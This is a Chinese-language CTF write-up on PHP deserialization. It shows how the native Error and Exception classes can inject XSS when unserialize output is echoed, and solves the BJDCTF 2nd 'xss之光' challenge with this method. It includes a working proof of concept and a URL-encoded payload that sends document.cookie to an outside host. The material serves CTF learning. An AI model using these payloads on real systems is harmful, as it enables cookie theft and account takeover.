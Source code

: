 直接上实例：

```php
<?php
  highlight_file(__FILE__);
$a = $_GET['xss'];
print_r(unserialize($a));
//echo unserialize($a);
?>
```

可以看到，环境中给出了反序列化入口，但却没有可以利用的类，那么这时候，就到了前面说到的原生类发挥作用的时候了。

poc:

```php
//Error类 php7
<?php
  $a = new Error("<script>alert('xss')</script>");
$b = serialize($a);
echo urlencode($b);  
?>

//Exception类 php5、php7
<?php
$a = new Exception("<script>alert('xss')</script>");
$b = serialize($a);
echo urlencode($b);  
?>
```

**例题：[BJDCTF 2nd]xss之光**

进入题目,通过git泄露拿到源码如下：

```php
<?php
$a = $_GET['yds_is_so_beautiful'];
echo unserialize($a);
```

 这就是一个典型的反序列化函数，但是没有给出反序列化的类，我们无法构造pop链，只有利用php内置类来反序列化，加上一个echo，我们就可以利用Error内置类来XSS：

payload：一般xss的题都是在cookie理里，所以我们利用XSS把cookie带出来  

```php
<?php
$poc = new Exception("<script>window.open('http://de28dfb3-f224-48d4-b579-f1ea61189930.node3.buuoj.cn/?'+document.cookie);</script>");
echo urlencode(serialize($poc));
?>
传参即可
/?yds_is_so_beautiful=O%3A9%3A%22Exception%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A109%3A%22%3Cscript%3Ewindow.open%28%27http%3A%2F%2Fde28dfb3-f224-48d4-b579-f1ea61189930.node3.buuoj.cn%2F%3F%27%2Bdocument.cookie%29%3B%3C%2Fscript%3E%22%3Bs%3A17%3A%22%00Exception%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A0%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A18%3A%22%2Fusercode%2Ffile.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A2%3Bs%3A16%3A%22%00Exception%00trace%22%3Ba%3A0%3A%7B%7Ds%3A19%3A%22%00Exception%00previous%22%3BN%3B%7D
```
